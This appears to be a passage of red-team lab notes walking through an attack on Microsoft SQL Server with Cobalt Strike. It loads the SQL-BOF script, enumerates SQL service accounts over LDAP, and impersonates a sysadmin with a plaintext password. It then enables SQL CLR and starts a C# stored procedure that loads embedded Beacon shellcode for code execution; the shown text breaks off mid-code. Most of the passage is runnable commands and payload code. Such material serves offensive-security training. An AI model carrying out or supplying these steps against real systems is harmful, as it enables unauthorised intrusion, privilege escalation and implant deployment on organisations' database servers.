 # Attack

1. \
   Load the SQL-BOF Aggressor script.
   1. Go to **Cobalt Strike > Script Manager**.
   2. Click **Load**.
   3. Select _C:\Tools\SQL-BOF\SQL\SQL.cna_.

## Enumeration <a href="#enumeration" id="enumeration"></a>

1.  Search for MS SQL servers configured for Kerberos authentication.

    ```batch
    ldapsearch (&(samAccountType=805306368)(servicePrincipalName=MSSQLSvc*)) --attributes name,samAccountName,servicePrincipalName
    ```
2. Get information about the lon-db-1 instance.
   1. sql-info lon-db-1
3. Query your current privileges on the SQL instance.
   1. sql-whoami lon-db-1
4. Impersonate a sysadmin user.
   1. make\_token CONTOSO\rsteel Passw0rd!
5. Query your privileges again and see how they've changed.

## Code Execution <a href="#code-execution" id="code-execution"></a>

1.  Check the status of SQL CLR.

    ```beacon-nocolor
    sql-query lon-db-1 "SELECT value FROM sys.configurations WHERE name = 'clr enabled'"
    ```
2. Enable SQL CLR on _lon-db-1_.
   1. sql-enableclr lon-db-1
3. Open Visual Studio and create a new Class Library (.NET Framework) project:
   1. Project name: MyProcedure.
   2. Place in the same directory: Checked
4. Add _smb\_x64.xthread.bin_ as an embedded resource.
5. Paste the following code:

```csharp
using System;
using System.IO;
using System.Reflection;
using System.Runtime.InteropServices;
using Microsoft.SqlServer.Server;

public partial class StoredProcedures
{
    [SqlProcedure]
    public static void MyProcedure()
    {
        var assembly = Assembly.GetExecutingAssembly();

        byte[] shellcode;

        // read embedded payload
        using (var rs = assembly.GetManifestResourceStream("MyProcedure.smb_x64.xthread.bin"))
        {
            using (var ms = new MemoryStream())
            {
                rs.CopyTo(ms);
                shellcode = ms.ToArray();
            }
```
